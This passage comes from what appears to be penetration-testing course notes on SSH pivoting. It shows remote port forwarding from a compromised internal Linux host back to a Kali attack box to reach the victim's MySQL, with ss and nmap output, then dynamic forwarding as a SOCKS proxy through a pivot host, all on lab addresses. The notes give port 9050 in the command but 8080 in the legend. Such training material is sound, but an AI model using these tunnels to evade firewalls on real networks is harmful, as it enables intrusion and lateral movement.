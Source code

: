 ```bash
	Reconnecting with SMB1 for workgroup listing.  
  
	Server               Comment  
	---------            -------  
  
	Workgroup            Master  
	---------            -------
```


##### REMOTE:  
  
Port is opened on the remote side of the connection & traffic sent to that port is forwarded to our local machine (machine initiating the SSH client)  
  
Scenario:  
	Access to a non-root shell on a Linux client on internal network. On this compromised machine, we discover MySQL server running on 3306  
	Firewall's blocking inbound SSH connections but allows outbound SSH  
	We _can_ SSH out from this server to our attack machine.  
  
Use **-R** to signify remote forwarding:  
Ex:  (student@debian)
```bash
ssh -N -R 10.11.0.4:2221:127.0.0.1:3306 kali@10.11.0.4
```
	10.11.0.4:2221 - Attack box (kali)  
	127.0.0.1:3306 - Victim's localhost  
  
Results:  (kali) 
```bash
ss -antp | grep "2221"  
	LISTEN   0   128    127.0.0.1:2221     0.0.0.0:*      users:(("sshd",pid=2294,fd=9))  
	LISTEN   0   128      [::1]:2221         [::]:*       users:(("sshd",pid=2294,fd=8))  
      
sudo nmap -sS -sV 127.0.0.1 -p 2221  
  
	Nmap scan report for localhost (127.0.0.1)  
	Host is up (0.000039s latency).  
  
	PORT     STATE SERVICE VERSION  
	2221/tcp open  mysql   MySQL 5.5.5-10.1.26-MariaDB-0+deb9u1  
  
	Nmap done: 1 IP address (1 host up) scanned in 0.56 seconds 
```
  
 
##### DYNAMIC:  
  
Similar scenario to local:  
	Compromised an internal Linux client, elevated privs, no in/out-bound FW blocking, but - this has 2 nic's & is connected to 2 separate networks (10.11.*.* & 192.168.*.*)  
	Rather than targetting one IP & port, we want to target multiple ports.  
  
Use **-D** to signify dynamic forwarding & create a SOCKS4 proxy:  
Ex:  
```bash
sudo ssh -N -D 127.0.0.1:9050 student@10.11.0.128
```
	127.0.0.1:8080 - Attack box (kali)  
	student@10.11.0.128 - Pivot box  
  